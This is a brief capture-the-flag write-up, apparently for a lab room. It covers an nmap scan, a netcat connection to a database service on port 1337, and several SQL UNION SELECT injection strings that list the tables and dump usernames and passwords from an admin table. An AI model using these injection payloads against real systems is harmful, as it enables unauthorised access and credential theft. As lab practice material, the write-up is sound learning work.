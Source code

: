 The room says there is a database application running on port `1337` and gives us a username of `smokey` 
Started with a nmap scan
```
22 OpenSSH 8.2p1
1337 
```
When we connect to the service using ncat and give it are username it gives us a password but we need to find  a username of admin so I had ChatGPT make me a script to check for valid usernames this seems to not be the best way so I switched to trying sqli in injection with this injection we can dump the `admintable` 
`smokey' Union Select name FROM sqlite_master WHERE type='table`
now we have the table time to get the username 
`smokey' Union Select username FROM admintable WHERE username '%`
and we got `.........` now for the password 
`smokey' Union Select password FROM admintable WHERE username = ..................`
now we have the password `...........` but we can ssh in so I looked for anymore users in the database and found 2 entries and it was the flag 
`smokey' Union Select password FROM admintable WHERE username != '..................` 